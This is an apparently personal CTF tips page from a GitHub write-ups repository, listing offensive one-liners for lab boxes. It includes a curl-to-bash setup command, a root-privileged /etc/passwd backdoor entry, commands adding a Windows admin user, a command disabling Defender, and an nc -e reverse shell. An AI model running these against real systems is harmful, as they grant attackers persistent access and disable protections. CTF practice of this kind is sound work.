 # Tips and Tricks

Just various bits of script and techniques I've found useful.

My [setup script](https://github.com/ChrisPritchard/ctf-writeups/blob/master/thm-setup.sh) for THM Attack Boxes: 

```bash
curl -s https://raw.githubusercontent.com/ChrisPritchard/ctf-writeups/master/thm-setup.sh | bash
```

- passwd user to add (pass123): `echo 'user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash' >> /etc/passwd` (note the single quotes so $ is ignored)
- adding windows users from cmd line (or rce):
    ```
    net user /add haxxor P@ssw0rd1
    net localgroup "administrators" haxxor /add
    net localgroup "Remote Desktop Users" haxxor /add
    ```
- ssh shuttle (to a machine with ssh AND python): `sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET` (ssh command is required if you need a keyfile)
- listen for pings: `tcpdump -i eth0 icmp`
- scp over a jump host for the attack box (which has older scp): `scp -o 'ProxyJump your.jump.host' myfile.txt remote.internal.host:/my/dir`
- disable defender from powershell as an admin on windows: `Set-MpPreference -DisableRealtimeMonitoring $true`

## Top external resources

- [HackTricks by Carlos Polop (same guy behind linpeas)](https://book.hacktricks.xyz/)
- [Binary Exploitation notes](https://ir0nstone.gitbook.io/notes/)
- [My GDB tips and tricks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/GDB-TIPS-AND-TRICKS.md)
- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [Revshells - a rev shell generator](https://www.revshells.com/)
- [GTFObins - linux privesc via living off the land](https://gtfobins.github.io/)
- [LOLBAS - same as above but for windows](https://lolbas-project.github.io/#)
- [WADComs - AD stuff](https://wadcoms.github.io/)
- [StegOnline - beyond simple steghide](https://stegonline.georgeom.net/image)
- [Static linux binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64) (copy /usr/share/nmap/nmap-services over as well for nmap)
- [PHP Webshell Archive](https://www.r57shell.net/index.php) - some cool ones in here that do more than cmd passthru

## Reverse shells

If netcat with -e exists (nc.traditional, very rare in CTFs, in my experience) or if the static ncat binary has been copied across:

`nc -e /bin/bash 10.4.0.7 4444`
